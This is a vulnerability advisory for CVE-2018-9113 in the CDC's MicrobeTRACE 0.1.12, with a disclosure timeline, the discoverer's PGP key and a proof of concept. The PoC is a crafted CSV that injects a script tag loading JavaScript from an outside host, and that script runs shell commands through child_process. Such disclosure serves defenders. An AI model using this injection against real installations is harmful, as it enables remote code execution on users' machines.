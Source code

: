 ### Description
MicrobeTRACE 0.1.12 allows remote attackers to execute arbitrary code, related to code injection via specially crafted CSV files.

### VulnerabilityType
Inclusion of Functionality from Untrusted Control Sphere (CWE-829)

### Vendor of Product
Centers for Disease Control and Prevention Surveillance Strategy (CDCgov)

### Affected Product Code Base
MicrobeTRACE 0.1.12

### Affected Component
| Component | Version | Hash |
| :-------------------------------- |:--------------------------------|:--------------------------------|
| MicrobeTRACE.exe	| 0.1.12 | b28b75ee3be7cb6da895f52dca2a98ee |

### Attack Type
Remote

### Impact Code execution
true

### Attack Vectors
Attackers can exploit this vulnerability by creating a specially crafted CSV file that subsequently injects and executes server side code.

### Reference
[Product Website](https://github.com/CDCgov/MicrobeTRACE) <br />
[Product Download](https://github.com/CDCgov/MicrobeTRACE/releases/tag/v0.1.12)
 
### Discoverer
West Shepherd <br />
wshepherd0010[at]gmail.com

### Advisory ID
CVE-2018-9113

### Report Timeline
| Date    						| Action          				   |
| :-------------------------------- |:--------------------------------|
| 3/28/2018      				|  Discovered vulnerability in 0.1.12, contacted vendor. |
| 3/28/2018      				|  Requested CVE, vendor published fix for 0.1.12 (marked as pre-release). |
| 3/29/2018      				|  Second issue fixed in 0.1.12 pre-release. |
| 4/24/2018                     |  Released details to public. |

### PoC

```js
/*
# Exploit Title: MicrobeTRACE 0.1.12 - Code Injection
# Google Dork: N/A
# Date: 4/24/2018
# Exploit Author: West Shepherd
# Vendor Homepage: https://github.com/CDCgov/MicrobeTRACE
# Software Link: https://github.com/CDCgov/MicrobeTRACE/releases/tag/v0.1.12
# Version: 0.1.12
# Tested on: Windows 7 x86-x64
# CVE : CVE-2018-9113.
*/

/* 
Steps to reproduce: 
1.) create pwn.js
2.) create exploit.csv
3.) run "python -m SimpleHTTPServer 80"
4.) load exploit.csv with MicrobeTRACE
*/

// contents of pwn.js
const exec = require('child_process').exec;

function os_func() {
    this.execCommand = function(cmd, callback) {
        exec(cmd, (error, stdout, stderr) => {
            if (error) {
                alert('exec error:' + error);
                return;
            }

            callback(stdout);
        });
    }
}

var os = new os_func();
os.execCommand('whoami', function (returnvalue) {    
    alert(returnvalue + ' has been pwned.');
});

// contents of exploit.csv (for 0.1.12)
/*
><script type="text/javascript" src="http://172.26.61.131/pwn.js",Target,Weight,distance
100,200,1,0.01
100,200,1,0.01
100,200,1,0.01
100,200,1,0.01
100,200,1,0.01
*/
```

### PGP 
Contact West Shepherd wshepherd0010[at]gmail.com
```txt
-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: CryptUp 4.4.6 Gmail Encryption https://cryptup.org
Comment: Seamlessly send, receive and search encrypted email

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
6/I9
=vCq5
-----END PGP PUBLIC KEY BLOCK-----


```